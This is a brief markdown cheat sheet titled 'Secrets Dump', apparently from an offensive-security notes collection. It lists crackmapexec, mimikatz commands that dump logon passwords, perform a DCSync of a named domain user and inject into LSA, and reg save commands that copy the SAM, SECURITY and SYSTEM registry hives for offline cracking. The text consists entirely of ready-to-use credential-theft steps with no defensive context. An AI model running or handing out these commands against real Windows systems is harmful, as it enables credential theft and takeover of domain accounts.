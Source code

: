 # Secrets Dump
crackmapexec

Check with `Privilege::debug` if the right priv are set (admin).

Sekurlsa::logonpasswords
Lsadump::dcsync /user:\<USER\> /domain:\<DOMAIN\>
Lsadump::lsa /inject /name:\<USER\>

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```